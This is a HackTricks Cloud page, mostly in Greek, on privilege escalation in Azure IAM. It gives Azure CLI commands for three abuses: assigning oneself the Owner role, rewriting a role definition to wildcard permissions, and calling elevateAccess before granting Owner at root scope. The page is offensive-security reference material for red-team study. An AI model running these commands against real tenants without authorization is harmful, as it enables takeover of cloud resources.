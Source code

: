 # Az - Azure IAM Privesc (Authorization)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Azure IAM

Για περισσότερες πληροφορίες, ελέγξτε:

{% content-ref url="../az-services/az-azuread.md" %}
[az-azuread.md](../az-services/az-azuread.md)
{% endcontent-ref %}

### Microsoft.Authorization/roleAssignments/write

Αυτή η άδεια επιτρέπει την ανάθεση ρόλων σε κύριους σε μια συγκεκριμένη εμβέλεια, επιτρέποντας σε έναν επιτιθέμενο να κλιμακώσει τα προνόμια του αναθέτοντας στον εαυτό του έναν πιο προνομιακό ρόλο:

{% code overflow="wrap" %}
```bash
# Example
az role assignment create --role Owner --assignee "24efe8cf-c59e-45c2-a5c7-c7e552a07170" --scope "/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.KeyVault/vaults/testing-1231234"
```
{% endcode %}

### Microsoft.Authorization/roleDefinitions/Write

Αυτή η άδεια επιτρέπει την τροποποίηση των αδειών που χορηγούνται από έναν ρόλο, επιτρέποντας σε έναν επιτιθέμενο να κλιμακώσει τα προνόμια χορηγώντας περισσότερες άδειες σε έναν ρόλο που έχει αναθέσει.

Δημιουργήστε το αρχείο `role.json` με το παρακάτω **περιεχόμενο**:
```json
{
"Name": "<name of the role>",
"IsCustom": true,
"Description": "Custom role with elevated privileges",
"Actions": [
"*"
],
"NotActions": [],
"DataActions": [
"*"
],
"NotDataActions": [],
"AssignableScopes": [
"/subscriptions/<subscription-id>"
]
}
```
Τότε ενημερώστε τις άδειες ρόλου με τον προηγούμενο ορισμό καλώντας:
```bash
az role definition update --role-definition role.json
```
### Microsoft.Authorization/elevateAccess/action

Αυτή η άδεια επιτρέπει την αναβάθμιση δικαιωμάτων και την ικανότητα ανάθεσης αδειών σε οποιονδήποτε κύριο για πόρους Azure. Προορίζεται να δοθεί στους Παγκόσμιους Διαχειριστές Entra ID ώστε να μπορούν επίσης να διαχειρίζονται άδειες για πόρους Azure.

{% hint style="success" %}
Νομίζω ότι ο χρήστης πρέπει να είναι Παγκόσμιος Διαχειριστής στο Entra ID για να λειτουργήσει η κλήση αναβάθμισης.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Call elevate
az rest --method POST --uri "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"

# Grant a user the Owner role
az role assignment create --assignee "<obeject-id>" --role "Owner" --scope "/"
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
